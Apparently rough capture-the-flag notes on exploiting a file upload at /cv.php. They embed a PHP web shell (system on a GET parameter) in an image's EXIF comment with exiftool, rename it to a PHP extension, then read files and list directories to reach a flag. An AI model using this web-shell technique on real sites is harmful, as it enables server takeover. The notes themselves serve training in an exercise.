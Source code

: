 # Bypass Disable Functions

this box has a site with a file upload, on the /cv.php


small.jpg
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' test.jpeg

upload with burp as test.jpg

repeat but change name too .phpe
mv small.jpg small.php

uploaded it and can run simple php 
so trying some php stuff

```php
echo file_get_contents('../index.php')
?>```


```php
<?php
function listFilesInParentDir($dir) {
    $directoryIterator = new DirectoryIterator($dir);
    foreach ($directoryIterator as $file) {
        // if ($file->isFile()) {
            echo $file->getFilename() . PHP_EOL;
        // }
    }
}
$parentDir = realpath(__DIR__ . '/../');
listFilesInParentDir($parentDir);
?>
```

iterating these folders we found the path `/../../../../../../../../home/user/flag.txt`
